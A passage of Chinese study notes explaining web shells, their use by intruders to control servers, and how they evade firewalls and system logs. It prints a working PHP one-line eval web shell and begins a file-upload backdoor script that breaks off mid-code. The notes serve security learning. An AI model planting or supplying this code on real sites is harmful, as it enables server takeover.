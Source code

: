 # 文件漏洞

### 一、WebShell原理

1. 含义：WebShell就是以asp、php、jsp或cgi等网页文件形式存在的一种命令执行环境（网络后门），简单来说可以理解为一种恶意脚本。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下的正常网页文件混在一起，然后可以使用浏览器来访问asp或php后面，==得到一个命令执行环境，以达到控制网站服务器的目的==

2. 优点：

   > 1. 可以穿越防火墙：被控制的服务器或远程主机交换的数据都是通过80端口
   > 2. 不会在系统日志中留下记录：记录只会保留在网站的web日志中

3. 分类：

   > ![image-20210804152515306](../images/05_文件漏洞/image-20210804152515306.png)
   >
   > * **一句话木马**[^注1]
   >
   >   ~~~php
   >   // 将要执行的代码放置在变量pass中，再使用POST方法传递给一句话木马，构造一个命令执行环境
   >   <?php @eval($_POST['pass']); ?>
   >   ~~~
   >
   >   ![image-20210804173706621](../images/05_文件漏洞/image-20210804173706621.png)
   >
   >   [^注1]: `eval()`：将字符串作为PHP代码执行
   >
   > * 小马
   >
   >   ~~~php
   >   <?php
   >   @$temp = $_FILES['upload_file']['tmp_name'];
   >   @$file = basename($_FILES['upload_file']['name']);
   >   if(empty($file)){
